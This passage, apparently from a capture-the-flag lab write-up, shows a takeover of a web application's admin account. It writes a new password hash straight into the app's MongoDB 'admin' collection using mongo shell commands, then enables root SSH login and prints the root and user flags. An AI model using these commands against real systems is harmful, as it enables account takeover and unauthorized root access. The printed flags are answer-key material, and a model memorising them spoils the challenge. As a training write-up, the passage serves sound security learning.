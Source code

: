 So we try to update his password. First we create a new hash in our attacker machine:

```BASH
mkpasswd -m sha-512 Password
```

The future password is `Password`

```HASH

$6$T3j3cpRnUtaEAXCz$dio0Y1WN9.3KkLloPKSr4NdJIQ5SfeFqGUXXlVxIQ/3IG1183ucRR/Y1tgdXzDMA7387.WOGbKt2LZzao.6j2.

```

And we try to update the password with :

```BASH
mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")}, {$set: {"x_shadow": "$6$T3j3cpRnUtaEAXCz$dio0Y1WN9.3KkLloPKSr4NdJIQ5SfeFqGUXXlVxIQ/3IG1183ucRR/Y1tgdXzDMA7387.WOGbKt2LZzao.6j2."}})'
```

And we check if the update was done :

```SHELL
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

And it's work. So go login in the web page with `administrator:Password`

It's all working.

In the settings we cane change the ssh auth :

![[Pasted image 20250123214218.png]]

We chose `1234` for the password.
And apply changes.

So we log in ssh

```BASH
ssh root@10.129.149.4
```

It's take time for have the changes apply.

But we are now root.

Root flag :

```FLAG
e50bc93c75b634e4b272d2f771c33681
```

In the folder of michael we have the user.txt flag :

```FLAG
6ced1a6a89e666c0620cdb10262ba127
```